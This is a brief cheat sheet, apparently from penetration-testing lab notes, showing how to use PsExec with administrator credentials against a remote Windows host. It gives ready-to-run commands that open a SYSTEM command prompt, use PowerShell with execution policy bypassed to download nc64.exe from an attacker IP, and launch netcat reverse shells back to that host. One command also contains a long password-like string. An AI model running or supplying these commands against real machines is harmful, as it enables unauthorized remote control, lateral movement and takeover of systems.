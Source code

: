 ## Tool: Psexec.exe

To launch a command prompt on a remote machine (using password)

``` .\psexec.exe -accepteula -s \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password cmd.exe ```

To download nc64.exe on a remote machine (using password)

``` C:\Users\Public\psexec.exe -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe; ```

To get a reverse shell (using password) (requires nc64.exe to be downloaded on the target machine)

PowerShell 1: ``` .\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p qNkr96DvM03s58ckId8Bi867iuLp4BUNKbOTjFuHMrDu5AtI cmd.exe /c C:\users\Public\nc64.exe 191.168.14.10 8080 -e "powershell.exe -Executionpolicy bypass" ```

PowerShell 2: ``` C:\Users\Public\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c C:\Users\Public\nc64.exe 192.168.14.10 8008 -e powershell.exe ```

Cmd: ``` .\psexec.exe -accepteula \\ws01 -u ws01\Administrator -p password cmd.exe /c C:\users\Public\nc64.exe 192.168.14.10 8080 -e cmd.exe```



